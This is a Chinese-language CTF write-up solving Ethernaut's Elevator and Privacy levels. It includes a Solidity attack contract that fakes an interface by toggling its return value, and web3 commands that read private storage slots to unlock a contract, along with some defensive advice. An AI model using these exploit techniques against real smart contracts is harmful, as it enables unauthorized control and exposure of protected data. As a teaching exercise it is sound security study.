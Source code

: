 ## 11. Elevator ✅ [Easy]

这关主要考察对interface的理解：
- interface 是 Solidity 中的一种抽象合约，用于定义合约的函数签名，但不包含实现代码。
- 攻击者可以利用实现 interface 的合约但是使用含有攻击的function来获取合约的控制权

攻击步骤：
1. 主要是实现了interface的攻击合约的编写
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Elevator.sol";

contract ElevatorAttack is Building {
    Elevator public target;
    bool public toggle;

    constructor(address _target) public {
        target = Elevator(_target);
    }

    function isLastFloor(uint) external override returns (bool) {
        toggle = !toggle; // 切换返回值
        return toggle;
    }

    function attack(uint _floor) public {
        target.goTo(_floor);
    }
}
```

学习要点：
- 限制接口调用者: 验证调用者是否为可信合约或特定地址。
- 使用 require 检查 msg.sender
```solidity
require(msg.sender == trustedAddress, "Unauthorized caller");
```
- 逻辑验证: 避免完全依赖外部合约的返回值，加入内部验证逻辑。


## 12. Privacy ✅ [Easy]

这个关卡主要考察对存储槽和数据保护的理解：
- 存储槽是 Solidity 中用于存储变量的空间，每个存储槽都有一个唯一的索引。
- 攻击者可以利用存储槽来获取合约的私有数据

攻击步骤：
1. 首先分析：Solidity 存储布局，状态变量按顺序存储在存储槽中：
locked 位于槽 0。
ID 位于槽 1。
flattening, denomination, 和 awkwardness 共用槽 2。
data 数组从槽 3 开始，分别存储 data[0], data[1], 和 data[2]。
尽管data 的存储内容是私有的（private），但在以太坊上，所有存储槽都是可通过低级工具（如 web3.eth.getStorageAt）读取的。
2. 使用 web3.eth.getStorageAt 读取存储槽 5 的内容
```js
await web3.eth.getStorageAt(contract.address, 5).toString();
```
3. 将读取到的 key 转换为 bytes16，然后调用 unlock 函数：
```js
await contract.unlock(key.slice(0, 34)); // 使用前 16 字节
```

